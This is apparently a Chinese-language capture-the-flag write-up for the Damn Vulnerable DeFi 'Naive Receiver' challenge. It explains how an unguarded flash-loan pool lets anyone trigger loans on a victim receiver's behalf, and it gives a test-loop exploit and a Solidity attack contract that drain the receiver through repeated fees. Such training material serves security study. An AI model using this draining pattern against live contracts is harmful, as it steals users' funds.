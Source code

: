 ```jsx
    function flashLoan(address borrower, uint256 borrowAmount)
        external
        nonReentrant
    {
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= borrowAmount, "Not enough ETH in pool");

        require(borrower.isContract(), "Borrower must be a deployed contract");
        // Transfer ETH and handle control to receiver
        borrower.functionCallWithValue(
            abi.encodeWithSignature("receiveEther(uint256)", FIXED_FEE),
            borrowAmount
        );

        require(
            address(this).balance >= balanceBefore + FIXED_FEE,
            "Flash loan hasn't been paid back"
        );
    }
```

## 實現攻擊

NaiveReceiverLenderPool 沒有限制 caller 必須跟 msg.sender 相同、FlashLoanReceiver 沒有限制 tx.origin 必須是自己，或是有授權的用戶，所以我們可以直接呼叫 NaiveReceiverLenderPool 然後指定 Receiver 為 FlashLoanReceiver。

一開始會一直很想找到可以一次抽乾 10 ETH 的方法，但後來發現基本不可能，所以我們就要想辦法用我們的 EOA 發出一個 Transaction 但是這個 Transaction 卻可以幫我們開啟 10 個 Transaction，要達成這樣的效果就只能自己寫合約了。 所以，此題的解法有兩種：

### EOA 呼叫： 使用 EOA 直接重複呼叫 `NaiveReceiverLenderPool` 的 flash loan function - 可以用 for loop 也可以用 while loop 實現

```jsx
   it('Exploit', async function () {
        while (await ethers.provider.getBalance(this.receiver.address) > 0) {
            await this.pool.flashLoan(this.receiver.address, ethers.utils.parseEther('9'));
        }
```

### 合約呼叫：將多個 Transaction 變成一個

寫一個簡單的攻擊合約，裡面有一個 attack function 可以呼叫 pool 的 flashLoan，在測試當中部署並呼叫一次我們攻擊合約發動攻擊，交由合約幫我們發動剩下的攻擊

- 攻擊 function

```jsx
    function attack(address _receiver) external {
        while (payable(_receiver).balance >= 1 ether) {
            pool.flashLoan(_receiver, 0);
        }
    }
}
```
